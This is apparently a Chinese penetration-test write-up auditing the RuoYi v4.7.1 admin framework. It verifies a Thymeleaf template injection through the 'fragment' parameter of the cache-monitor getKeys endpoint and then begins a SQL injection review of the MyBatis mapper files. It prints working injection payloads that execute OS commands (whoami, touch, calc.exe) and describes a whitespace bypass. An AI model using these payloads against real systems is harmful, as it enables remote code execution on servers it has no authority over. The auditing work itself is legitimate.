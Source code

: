 发现若依v4.7.1 存在Thymeleaf模板注入漏洞，并且存在return内容可控的漏洞点，我们通过渗透测试角度进行漏洞验证。Thymeleaf模板注入payload举例：发现return内容可控：  
\_\_${new  
java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getI  
nputStream()).next()}\_\_::.x  
URL路径可控：  
\_\_${T(java.lang.Runtime).getRuntime().exec("touch test")}\_\_::.x

本次漏洞验证我在Windows环境下进行的。

⚠ 注意： 若依v4.7.1 搭建部署与 若依v4.2 相同，数据库导入务必使用 sql 目录

下的 ry\_20210924.sql 和 quartz.sql 。先导入 ry\_20210924.sql 。

return内容可控：

\_\_${new

java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getI

nputStream()).next()}\_\_::.x

URL路径可控：

\_\_${T(java.lang.Runtime).getRuntime().exec("touch test")}\_\_::.x

我们以 getKeys 接口为例，该漏洞点为 return内容可控 ，具体漏洞验证如下。进入系统监控下，使用缓存监控，和代码审计发现的 CacheControlle 代码文件中功能注释一样。访问缓存监控功能。分别点击 缓存列表和键名列表旁的刷新按钮，会分别想 getNames ， getKeys 接口发送数据。  
![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1680792833249-4587c223-0803-4170-92cb-a3fd22a42dd3.png)

将数据包发送到Repeater模块，在 fragment 参数后构造攻击payload为 \_\_${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc.exe")}\_\_::.x ，对paylod进行URL编码后。  
发送数据包。响应报错，而且并没有弹出来计算器。如下图所示：

![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1680792855389-1c0146d7-bdad-47e9-b7e5-e6402bfb1aae.png)  
我们将Payload改造一下，如 ${T(java.lang.Runtime).getRuntime().exec("calc.exe")} 。在T和(之间多加几个空格即可。对Payload进行URL编码后，放入 fragment 参数中，弹出了计算器

在编码和不编码的情况下，发现都可以弹出计算机。  
![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1681053101527-0ec74454-40b4-4deb-9feb-b623273fb96c.png)  
![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1681051773615-4ba6cd08-47b3-48db-8bc5-6371b7d5d6b3.png)  
![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1681051758971-5847e3b4-dc17-48c4-9710-ad35b77eef01.png)

web漏洞
-----

### SQL注入漏洞

全局搜索关键字 $ ，并限定文件类型为 .xml ，发现 sysDeptMapper.xml 和 sysUserMapper.xml 有存在SQL注入的地方。

![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1680787547426-ba71f550-29a9-42c8-9e4b-75d8ccb2c6a7.png)  
然后看SysRoleMapper.xml 这个xml文件![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1680787623339-19a9fd0a-64ec-489c-9ccd-e0f0559f60be.png)

![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1680787638170-ad47c12d-3195-4658-bf31-7ddbf7425b69.png)  
点击左侧箭头快速跳转到DAO层,（IDEA中需要安装Free Mybatis plugin插件)
